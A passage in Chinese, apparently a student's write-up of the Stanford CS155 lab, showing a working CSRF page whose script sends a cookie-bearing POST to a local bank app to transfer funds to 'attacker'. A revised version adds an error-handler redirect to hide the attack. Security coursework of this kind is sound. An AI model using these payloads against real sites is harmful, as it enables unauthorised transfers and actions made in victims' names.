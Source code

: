 设置 `req.withCredentials=true` 表示携带 cookies 等信息。

```html
<!DOCTYPE html>
<html>
	<head>
		<script>
		// Tranfer to 'attacker'
		const params = "destination_username=attacker&quantity=10";
		const req = new XMLHttpRequest();
		req.withCredentials=true;
		req.onload = function() {
			// 结束之后加载到一个正常页面
			window.location = 'http://cs155.stanford.edu/';
		}
		req.open('POST', 'http://localhost:3000/post_transfer');
		req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
		req.send(params);
		</script>
	</head>
	<body></body>
</html>
```

**spring 2017 版**

这一部分与上面的步骤相同，先登录 user1 的账户，然后访问 b.html：

![image-20220505191046575](https://raw.githubusercontent.com/HSPK/pics/master/img/image-20220505191046575.png)

浏览器中发现服务器没有设置 `access-control-allow-origin` 所以将请求拦截，这是由于服务器后台没有设置 CROS 策略导致的，但是请求已经被发送给了服务器，xhr 转入错误状态。可以在服务器后台验证这一点：

访问 b.html 之后，后台出现了相关信息：

![image-20220505192059337](https://raw.githubusercontent.com/HSPK/pics/master/img/image-20220505192059337.png)

查看 `view_users` 界面，发现转账成功：

![image-20220505192246707](https://raw.githubusercontent.com/HSPK/pics/master/img/image-20220505192246707.png)

但是网页并没有跳转，这是因为 xhr 进入了 onerror，并没有调用 onload。那么，只需要在 onerror 的时候也跳转到正常页面即可。

```html
<!DOCTYPE html>
<html>
	<head>
		<script>
		// Tranfer to 'attacker'
		const params = "destination_username=attacker&quantity=10";
		const req = new XMLHttpRequest();
		req.withCredentials=true;
		req.onload = function() {
			// 结束之后加载到一个正常页面
			window.location = 'http://cs155.stanford.edu/';
		}
        req.onerror = function() {
            window.location = 'http://cs155.stanford.edu/'
        }
		req.open('POST', 'http://localhost:3000/post_transfer');
		req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
		req.send(params);
		</script>
	</head>
	<body></body>
</html>
```
